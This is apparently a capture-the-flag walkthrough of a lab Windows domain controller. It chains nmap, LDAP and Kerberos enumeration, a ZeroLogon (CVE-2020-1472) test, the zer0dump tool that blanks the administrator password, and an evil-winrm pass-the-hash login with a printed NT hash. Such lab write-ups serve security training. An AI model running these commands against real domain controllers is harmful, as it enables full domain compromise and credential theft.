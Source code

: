 In this walkthrough, we'll go over a beginner level box called "Zero". Zero is based on a Windows [CVE-2020-1472](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1472) on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).

![Zero IP](zeroIP.png)

Let's start the scanning process with nmap:
```bash
sudo nmap -A -T4 -p- 172.31.1.29 -oX zero-full-scan.xml
```
![Zero Nmap Full](zeroNmapFull.png)
![Zero Nmap Full2](zeroNmapFull2.png)

Now, we know that this is a domain controller. Let's run a full vuln scan to see if we can catch anything:
```bash
sudo nmap --script vuln 172.31.1.29 -oX zero-vuln-scan.xml
```
![Zero Nmap Vuln](zeroNmapVuln.png)

Unfortunately, this didn't reveal any vulnerabilities that we can use. Since we know that this machine is a Domain Controller, we can try ldap and kerberos enumeration:
Let's start with ldap enumeration:
```bash
sudo nmap -n -sV --script "ldap* and not brute" -p 389 172.31.1.29
```
![Zero ldap](zeroLdap.png)

I didn't find any users or service accounts so let's enumerate kerberos:
```bash
sudo nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm=zero.csl" 172.31.1.29
```
![Zero Kerberos](zeroKerberos.png)

We only find ```administratior@zero.csl```. Can this reveal anything?
Let's use impacket/GetNPUsers.py
```bash
python GetNPUsers.py -dc-ip 172.31.1.29 zero.csl/administrator -no-pass
```
![Zero NPUsers](zeroNPUsers.png)

It looks like we are running out of options. We can enumerate each service again, but since this is an Active Directory box we can look at lates CVEs which are affecting Domain Controllers and Windows Servers.
One of them is CVE-2020-1472. We can test if the machine is vulnerable to ZeroLogon.
Let's download two github libraries:

1 - https://github.com/SecuraBV/CVE-2020-1472.git --> we will be using zerologon_tester.py to test if the machine is vulnerable.
```bash
sudo ./zerologon_tester.py ZERO-DC 172.31.1.29
```
![Zero CVE Test](zeroCVETest.png)

As we can see the machine is vulnerable to ZeroLogon.

2 - https://github.com/bb00/zer0dump.git --> we will be using zer0dump.py to launch our attack and reset the administrator password on the Domain Controller to blank space/null.
```bash
sudo ./opt/zer0dump/zer0dump.py 172.31.1.29
```
![Zero ZeroLogon Attack](zeroZeroLogonAttack.png)

As we can see "Administrator" password has been changed. Now, by using NT hash we can log into the machine. Another important thing here is that port 5985 is open, this means that we can use evil-winrm which is another tool to log in and execute powershell scripts:
```bash
evil-winrm -u Administrator -H 36242e2cb0b26d16fafd267f39ccf990 -i 172.31.1.29
```
![Zero evil-winrm user](zeroEvil-WinrmSystem.png)

As we can see we are an administrator on the DC and can grab both access and system flags:

![Zero evil-winrm system](zeroEvil-WinrmUser.png)

I hope you enjoyed this walkthrough..

Thank you for reading...

[<= Go Back to Cyberseclabs Walkthrouhgs](CyberseclabsWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
